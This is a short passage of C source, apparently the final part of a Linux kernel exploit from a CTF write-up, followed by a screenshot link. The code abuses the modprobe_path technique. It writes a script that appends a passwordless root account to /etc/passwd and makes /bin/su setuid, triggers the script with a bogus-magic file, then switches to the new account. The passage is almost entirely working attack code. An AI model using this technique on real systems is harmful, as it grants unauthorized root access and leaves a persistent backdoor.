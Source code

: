 ```c
        "echo 'vjp::0:0:root:/:/bin/sh' >> /etc/passwd\n"
        "/bin/chmod +s /bin/su"
    );
    close(vjpfd);
    if(chmod("/home/user/vjp",0777))
        errExit("chmod");

    //Trigger call call_modprobe
    int magic = open("/home/user/pwn",O_CREAT | O_RDWR);
    if(magic < 0)
        errExit("open /home/user/pwn");
    dprintf(magic,"\x13\x37\x42\x42");
    close(magic);
    if(chmod("/home/user/pwn",0777))
        errExit("chmod");

    //Root
    system("/home/user/pwn");
    system("cat /etc/passwd");
    system("su vjp");
    }
```
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/e7a3d486-8d7b-4ab2-b92b-37a4e0ed2e37)


